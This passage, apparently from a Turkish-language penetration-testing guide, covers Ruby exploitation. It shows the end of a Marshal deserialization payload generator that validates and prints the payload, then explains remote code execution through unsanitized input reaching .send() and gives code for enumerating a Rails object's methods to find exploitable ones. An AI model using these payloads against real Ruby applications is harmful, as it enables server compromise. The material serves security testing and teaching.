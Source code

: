 ```ruby
puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
pipe.print payload
pipe.close_write
puts pipe.gets
puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts


require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```
Ruby On Rails'i exploit etmek için başka bir RCE zinciri: [https://codeclimate.com/blog/rails-remote-code-execution-vulnerability-explained/](https://codeclimate.com/blog/rails-remote-code-execution-vulnerability-explained/)

### Ruby .send() method

[**this vulnerability report**](https://starlabs.sg/blog/2024/04-sending-myself-github-com-environment-variables-and-ghes-shell/) içinde açıklandığı gibi, eğer bazı kullanıcılardan gelen unsanitized input bir ruby nesnesinin `.send()` metoduna ulaşırsa, bu metot nesnenin **herhangi bir diğer metodunu** herhangi bir parametre ile çağırmaya izin verir.

Örneğin, eval çağrısı yapıp ikinci parametre olarak ruby code verirseniz herhangi bir kodu çalıştırmanıza izin verir:
```ruby
<Object>.send('eval', '<user input with Ruby code>') == RCE
```
Dahası, eğer bir saldırgan sadece **`.send()`**'in tek bir parametresini kontrol ediyorsa, önceki yazıda belirtildiği gibi, nesnenin **argüman gerektirmeyen** veya argümanlarının **varsayılan değerleri** olan herhangi bir metodunu çağırmak mümkündür.\
Bunun için, nesnenin tüm metotlarını listeleyerek **bu gereksinimleri karşılayan bazı ilginç metotları bulmak** mümkündür.
```ruby
<Object>.send('<user_input>')

# This code is taken from the original blog post
# <Object> in this case is Repository
## Find methods with those requirements
repo = Repository.find(1)  # get first repo
repo_methods = [           # get names of all methods accessible by Repository object
repo.public_methods(),
repo.private_methods(),
repo.protected_methods(),
].flatten()

repo_methods.length()      # Initial number of methods => 5542

## Filter by the arguments requirements
candidate_methods = repo_methods.select() do |method_name|
[0, -1].include?(repo.method(method_name).arity())
end
candidate_methods.length() # Final number of methods=> 3595
```
### Ruby class pollution
